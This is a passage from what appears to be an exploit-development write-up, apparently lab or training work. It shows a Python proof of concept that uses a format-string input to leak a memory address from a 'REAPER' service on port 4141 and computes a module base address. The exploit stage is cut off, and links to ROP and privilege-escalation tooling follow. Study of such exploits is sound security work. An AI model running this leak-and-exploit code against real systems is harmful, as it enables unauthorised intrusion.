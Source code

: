 ## Proof of Concept Code 0x2

I updated my proof of concept code to include the memory leak, I also tidied up the code a bit to make it more usable:

```python
#!/usr/bin/python
import socket, sys, base64
from struct import pack

global server
global port
global s

def main():
    global server
    global port
    global s
    
    server = sys.argv[1]
    port = 4141

    print("REAPER PoC\n----------")
    print("[*] Connecting to: %s" % server)

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))

    leaked_address = leak_address()
    print("[*] Leaked address: %s" % hex(int(leaked_address,16)))

    base_address = int(leaked_address, 16)- 0x20660
    print("[*] Module base address: %s" % hex(base_address))

    print("[*] Sending the exploit...")
    send_exploit()

    s.close()

def leak_address():
    # recv initial menu
    d = s.recv(1024)

    s.send(b'1')
    d = s.recv(1024)

    leak_str = b"%p1-FE9A1-500-A270-0155-U3RhbmRhcmQgTGljZW5zZQ=="
    s.send(leak_str)
    d = s.recv(1024)

    s.send(b'2')
    d = s.recv(1024)
    d = s.recv(1024)

    # it works OK!
    retn = d.decode('utf-8').split(':')[1][1:17]

    return retn

def send_exploit():
    global s
    s.send(b'1')
    d = s.recv(1024)

```

[RP++]: https://github.com/0vercl0k/rp	"A fast ROP gadget finder"
[Notepad++]: https://notepad-plus-plus.org/downloads/	"Downloads"
[Plackyhacker]: https://github.com/plackyhacker/misc-scripts/blob/main/awe-prep/reaper-priv-esc.c	"Reaper Driver Priv Esc Code"
[Vergilius Project]: https://www.vergiliusproject.com/kernels/x64/windows-10/22h2	"22H2 (2022 Update, Vibranium R5)"